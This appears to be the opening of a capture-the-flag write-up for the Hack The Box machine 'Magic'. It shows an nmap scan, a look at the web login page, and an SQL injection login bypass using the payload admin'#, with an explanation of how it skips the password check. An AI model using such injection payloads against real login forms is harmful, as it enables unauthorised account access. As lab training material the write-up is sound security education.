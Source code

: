 ```yaml
---
description: 'SQL injection, PHP reverse shell upload, mysqldump and PATH injection'
---
```


# Magic

## Enumeration

As always, let's start with an `nmap`:

```text
$ sudo nmap -sS -n -p- -sV -sC -oN depth.nmp 10.10.10.185

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only ports `22` and `80`. Add `magic.htb` to your `/etc/hosts` and let's check out the website.

### HTTP

![The Main Page](../../.gitbook/assets/image%20%284%29.png)

There's definitely a lot going on. By analysing the source we can see some images are in the `images/uploads/` folder, which is useful for later. Let's click the `Login` button at the bottom left.

 

![](../../.gitbook/assets/image%20%2810%29.png)

First thing's first, let's try the default `admin:admin`. We get told it's invalid.

Now we can mess with the input to test for SQL injection. Tampering with a payload such as `'<>:32;4#::!@$":'` doesn't tell us it's invalid; perhaps it's having an affect?

If we try a basic payload such as `admin'#`, what happens? The logic here is it logs in with the username `admin` and comments out the password check to always successfully log us in, essentially making it

```sql
SELECT * FROM users WHERE username = 'admin'#' AND PASSWORD = ''
```

![SQL Injection Check](../../.gitbook/assets/image%20%283%29.png)

![The Next Page](../../.gitbook/assets/image.png)

Success!

